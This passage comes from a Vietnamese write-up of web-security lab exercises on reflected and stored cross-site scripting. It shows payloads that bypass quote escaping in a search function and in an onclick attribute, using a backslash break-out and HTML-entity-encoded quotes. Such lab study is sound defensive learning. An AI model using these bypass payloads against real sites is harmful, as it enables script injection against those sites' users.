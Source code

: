 Bài lab chứa lỗ hổng `reflected XSS` trong chức năng search. Dấu ngoặc nhọn và 'double' được HTML encode, còn dấu single quote được escape. Tìm cách khai thác và gọi hàm `alert()`

Lần này thì bài lab lại bỏ quên dấu `backslash`, ta sẽ tận dụng nó để bypass;

Payload:

```
\'; alert(1);//
```

Kết quả:

>![](https://i.imgur.com/rbQJqUu.png)


<hr>

### Bài 23: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

>![](https://i.imgur.com/TZRCCUn.png)

Bài lab chứa lỗ hổng `stored XSS` trong chức năng `comment`. Theo tiêu đề thì dấu ngoặc nhọn và nháy đôi bị HTML encoded, single quote và backslash bị escaped. Khai thác và gọi hàm `alert()`

Nếu ta nhập vào 1 địa chỉ website, thì comment của ta sẽ là thẻ `<a>` như sau:

```htmlembedded=
<a id="author" href="http://abc" onclick="var tracker={track(){}};tracker.track('http://abc');">bbbbbbbbbaa</a>
```

Ta cần escape payload địa chỉ website ra khỏi dấu nháy để khi click, event được kích hoạt và gọi hàm alert().

Vì dấu nháy đơn chỉ bị escaped, ta sẽ HTML encode nó và lợi dụng việc trình duyệt sẽ HTML decode các kí tự được mã hóa trong tài liệu trước khi thực thi javascript trong các sự kiện -> dấu nháy ta dù nằm trong chuỗi javascript vẫn được decode.

Payload:

```
&apos;-alert(document.domain)-&apos;
```

Nó sẽ khiến thẻ `a` trông như này

```htmlembedded=
<a id="author" href="http://a&apos;-alert(document.domain)-&apos;" onclick="var tracker={track(){}};tracker.track('http://a&apos;-alert(document.domain)-&apos;');">bbbbbbbbb</a>
```

Kết quả:

>![](https://i.imgur.com/9bKqJdA.png)


<hr>

### Bài 24: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
